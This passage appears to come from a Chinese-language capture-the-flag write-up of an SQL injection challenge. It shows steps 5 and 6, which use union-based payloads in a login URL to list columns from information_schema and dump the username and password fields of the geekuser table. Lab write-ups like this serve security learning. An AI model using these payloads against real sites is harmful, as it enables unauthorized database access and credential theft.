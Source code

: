 l0ve1ysq1、geekuser

5. #### 查列名

`?username='union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_schema='geek'+and+table_name='l0ve1ysq1'+%23&password=123`

![](../pic/43.png)

`?username='union+select+1,group_concat(column_name),3+from+information_schema.columns+where+table_schema='geek'+and+table_name='geekuser'+%23&password=123`

![](../pic/44.png)

6. #### 查数据

`?username='union+select+1,group_concat(username,',',password),3+from+geekuser+limit+0,1+%23&password=123`

geekuser只有一个admin
